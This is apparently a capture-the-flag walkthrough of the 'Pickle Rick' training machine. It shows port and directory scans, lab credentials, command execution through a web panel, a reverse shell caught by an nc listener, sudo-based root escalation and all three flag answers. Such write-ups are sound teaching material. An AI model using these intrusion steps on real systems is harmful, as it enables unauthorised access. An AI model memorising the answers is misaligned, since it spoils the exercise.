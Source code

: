 # Pickle Rick

## Active Machine Information
### Title: Pickle Rick
### IP Address: 10.10.47.193

## Answer the questions below

1. What is the first ingredient that Rick needs?(Qual é o primeiro ingrediente que Rick precisa?)

* Buscando Portas Abertas 
```bash
┌─[patrick@parrot]─[~/Desktop/Pickle_Rick]
└──╼ $nmap -sV 10.10.47.193
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-23 21:48 -03
Nmap scan report for 10.10.47.193
Host is up (0.23s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.10 seconds
┌─[patrick@parrot]─[~/Desktop/Pickle_Rick]
└──╼ $
```

* Verrificando Aplicacao Web
![001](./img/001.png)
![002](./img/002.png)
<center><span style="color: green">
Username: R1ckRul3s
</span></center>

```bash
┌─[patrick@parrot]─[~/Desktop/Pickle_Rick]
└──╼ $dirb http://10.10.47.193/

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sun Apr 23 21:54:28 2023
URL_BASE: http://10.10.47.193/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.47.193/ ----
==> DIRECTORY: http://10.10.47.193/assets/                                                                    
+ http://10.10.47.193/index.html (CODE:200|SIZE:1062)                                                         
+ http://10.10.47.193/robots.txt (CODE:200|SIZE:17)                                                           
+ http://10.10.47.193/server-status (CODE:403|SIZE:301)                                                       
                                                                                                               
---- Entering directory: http://10.10.47.193/assets/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
-----------------
END_TIME: Sun Apr 23 22:12:57 2023
DOWNLOADED: 4612 - FOUND: 3
┌─[patrick@parrot]─[~/Desktop/Pickle_Rick]
└──╼ $
```
![003](./img/003.png)
<center><span style="color: green">
Wubbalubbadubdub
</span></center>
 
* Testando Usuario e Possivel Senha no SSH 
```bash
┌─[✗]─[patrick@parrot]─[~/Desktop/Pickle_Rick]
└──╼ $ssh R1ckRul3s@10.10.47.193
The authenticity of host '10.10.47.193 (10.10.47.193)' can't be established.
ECDSA key fingerprint is SHA256:iTS1ttQ07y7kXvmoSzzZQSGGemb8AG42DpRlYA2NAAY.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.47.193' (ECDSA) to the list of known hosts.
R1ckRul3s@10.10.47.193: Permission denied (publickey).
┌─[✗]─[patrick@parrot]─[~/Desktop/Pickle_Rick]
└──╼ $
```

```bash
┌─[✗]─[patrick@parrot]─[~/Desktop/Pickle_Rick]
└──╼ $gobuster dir -u http://10.10.47.193/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,css,js,php,txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.47.193/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              html,css,js,php,txt
[+] Timeout:                 10s
===============================================================
2023/04/23 22:10:49 Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 1062]
/login.php            (Status: 200) [Size: 882] 
/assets               (Status: 301) [Size: 315] [--> http://10.10.47.193/assets/]
/portal.php           (Status: 302) [Size: 0] [--> /login.php]                    
/robots.txt           (Status: 200) [Size: 17]                                    
Progress: 24852 / 1323366 (1.88%)                                                [ERROR] 2023/04/23 22:20:46 [!] Get "http://10.10.47.193/581.txt": context deadline exceeded (Client.Timeout exceeded while awaiting headers)                   
===============================================================
2023/04/23 22:23:23 Finished
===============================================================
┌─[patrick@parrot]─[~/Desktop/Pickle_Rick]
└──╼ $
```
![004](./img/004.png)
* Testando Usuario e Possivel Senha no login.php 

![005](./img/005.png)
![006](./img/006.png)

* Tentando ler arquivo com o painel de executar comando no servidor backend e system 

![007](./img/007.png)
![008](./img/008.png)
![009](./img/009.png)
![010](./img/010.png)
<center><span style="color: green">
Resposta então é <u><b>mr. meeseek hair</b></u></span></center>

---

2. What is the second ingredient in Rick’s potion?(Qual é o segundo ingrediente da poção de Rick?)

* Reverse Shell(https://www.revshells.com/) in python3
![011](./img/011.png)
![012](./img/012.png)

```bash
┌─[patrick@parrot]─[~]
└──╼ $nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.8.110.213] from (UNKNOWN) [10.10.47.193] 60564
$ ls
ls
Sup3rS3cretPickl3Ingred.txt  clue.txt	 index.html  portal.php
assets			     denied.php  login.php   robots.txt
$ cd ..
cd ..
$ ls
ls
html
$ pwd
pwd
/var/www
$ cd /home 	
cd /home
$ ls
ls
rick  ubuntu
$ cd rick	     
cd rick
$ ls
ls
second ingredients
$ cat 'second ingredients'
cat 'second ingredients'
1 jerry tear
$ 
```

<center><span style="color: green">
Resposta então é <u><b>1 jerry tear</b></u>
</span></center>


---

3. What is the last and final ingredient?(Qual é o último e último ingrediente?)

```bash
$ 
$ pwd
pwd
/home/rick
$ cd ..
cd ..
$ ls
ls
rick  ubuntu
$ cd ubuntu	
cd ubuntu
$ ls 
ls
$ cd /root	
cd /root
sh: 22: cd: can't cd to /root
$ sudo -l
sudo -l
Matching Defaults entries for www-data on
    ip-10-10-47-193.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-47-193.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
$ sudo su
sudo su
root@ip-10-10-47-193:/home/ubuntu# cd /root
cd /root
root@ip-10-10-47-193:~# ls
ls
3rd.txt  snap
root@ip-10-10-47-193:~# cat 3rd.txt
cat 3rd.txt
3rd ingredients: fleeb juice
root@ip-10-10-47-193:~# 
```

<center><span style="color: green">
Resposta então é <u><b>fleeb juice</b></u>
</span></center>